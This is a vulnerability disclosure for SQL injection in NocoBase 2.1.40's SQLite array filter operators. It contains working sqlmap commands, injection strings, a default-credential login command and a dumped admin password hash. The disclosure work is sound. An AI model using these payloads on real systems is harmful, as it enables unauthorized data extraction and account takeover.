

# NocoBase 2.1.40 SQLite Filter Array Operator SQL Injection

### Summary

NocoBase 2.1.40 was confirmed vulnerable to SQL injection in the SQLite implementations of the `$anyOf` and `$noneOf` filter operators. An authenticated API user who can call a list action on a collection containing an array field can place SQL syntax inside an array filter value. NocoBase interpolates that value directly into a SQLite `EXISTS` subquery and passes the result to `Sequelize.literal()`.

The vulnerability was dynamically verified using sqlmap on NocoBase v2.1.40 with SQLite 3.44.2. sqlmap confirmed a boolean-based blind injection and successfully extracted the administrator email (`admin@nocobase.com`) and password hash from the `users` table.

### Details

The HTTP `filter` parameter reaches NocoBase's filter parser and is dispatched to registered operators for array fields. For SQLite, the installed implementation in `node_modules/@nocobase/database/lib/operators/array.js` builds the operator SQL as follows:

```js
const sqlArray = `(${value.map((v) => `'${v}'`).join(", ")})`;
const subQuery = `exists (select * from json_each(${name}) where json_each.value in ${sqlArray})`;
```

The values in `value` originate in the API filter parameter. They are surrounded by single quotes but are not escaped or bound as SQL parameters. For `$anyOf`, the resulting string is passed to `Sequelize.literal()`:

```js
const subQuery = sqliteExistQuery(value, ctx);
return Sequelize.literal(subQuery);
```

For `$noneOf`, the same unescaped subquery is negated:

```js
const subQuery = sqliteExistQuery(value, ctx);
where = Sequelize.literal(`not ${subQuery}`);
```

In the tested installation, the relevant compiled locations are `array.js:83-90`, `array.js:156-157`, and `array.js:177-178`. The PostgreSQL and MySQL branches in the same file escape their values before constructing SQL literals; the SQLite branch omits this protection.

This is CWE-89: Improper Neutralization of Special Elements used in an SQL Command.

### PoC

The following reproducible test uses a collection named `vuln_array_probe` with an array field named `tags`. Create two records:

```json
{"tags":["alpha"]}
{"tags":["beta"]}
```

#### sqlmap Detection (Verified 2026-08-18)

```bash
TOKEN=$(curl -s -X POST http://TARGET:13000/api/auth:signIn \
  -H "Content-Type: application/json" \
  -d '{"account":"admin@nocobase.com","password":"admin123"}' \
  | python3 -c "import sys,json;print(json.load(sys.stdin)['data']['token'])")

sqlmap -u "http://TARGET:13000/api/vuln_array_probe:list?pageSize=100&filter=%7B%22tags%22%3A%20%7B%22%24anyOf%22%3A%20%5B%22*%22%5D%7D%7D" \
  --header="Authorization: Bearer $TOKEN" \
  --header="X-Authenticator: basic" \
  --dbms=sqlite --technique=B --batch --level=3 --threads=4 --banner
```

Result:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: HAVING boolean-based blind - WHERE, GROUP BY clause
    Payload: ...filter={"tags": {"$anyOf": ["')) HAVING 7965=7965 AND (('ZrTS'='ZrTS"]}}

back-end DBMS: SQLite
banner: '3.44.2'
```

#### sqlmap Data Extraction — users table (Verified 2026-08-18)

```bash
sqlmap -u "http://TARGET:13000/api/vuln_array_probe:list?pageSize=100&filter=%7B%22tags%22%3A%20%7B%22%24anyOf%22%3A%20%5B%22*%22%5D%7D%7D" \
  --header="Authorization: Bearer $TOKEN" \
  --header="X-Authenticator: basic" \
  --dbms=sqlite --technique=B --batch --level=3 --threads=4 \
  -T users -C email,password --dump
```

Result:

```
+--------------------+------------------------------------------------------------------+
| email              | password                                                         |
+--------------------+------------------------------------------------------------------+
| admin@nocobase.com | 2f884850763fff97342c994f83ee45a9806c291e02a0ccc9e4da9476cad5ecde |
+--------------------+------------------------------------------------------------------+
```



#### Manual Boolean-based Blind Injection

A normal filter for the existing `alpha` value returns only row 1:

```http
GET /api/vuln_array_probe:list?pageSize=100
Authorization: Bearer <token>
X-Authenticator: basic
```

`filter` parameter: `{"tags":{"$anyOf":["alpha"]}}`
Observed response count: `1`.

Replace the value with a syntactically closed boolean-injection string:

```json
{"tags":{"$anyOf":["x') OR 1=1 AND ('a'='a"]}}
```

Equivalent complete request:

```http
GET /api/vuln_array_probe:list?pageSize=100&filter=%7B%22tags%22%3A%7B%22%24anyOf%22%3A%5B%22x%27%29%20OR%201%3D1%20AND%20%28%27a%27%3D%27a%22%5D%7D%7D
Authorization: Bearer <token>
X-Authenticator: basic
```

Observed response: `{"meta":{"count":2}}`.

Neither record contains `x`, so the second request returning both records demonstrates that `OR 1=1` modified the generated SQL predicate.

The same value also affects `$noneOf`:

```json
{"tags":{"$noneOf":["x') OR 1=1 AND ('a'='a"]}}
```

The benign `$noneOf:["alpha"]` request returned one row, while the injected request returned zero rows.

### Impact

An authenticated attacker who can query an affected array field can alter the SQL condition executed by NocoBase. The confirmed proof changes result visibility, allowing unauthorized access to records that the intended filter should exclude. More critically, boolean-based blind injection enables complete database extraction — verified by sqlmap extracting the administrator email and password hash from the `users` table. Extracted password hashes can be cracked offline for full account takeover.

The tested configuration is NocoBase 2.1.40 with SQLite 3.44.2. Implementations that contain the same unescaped SQLite array-operator construction are affected; deployments using the protected PostgreSQL or MySQL branches were not claimed as vulnerable by this test.
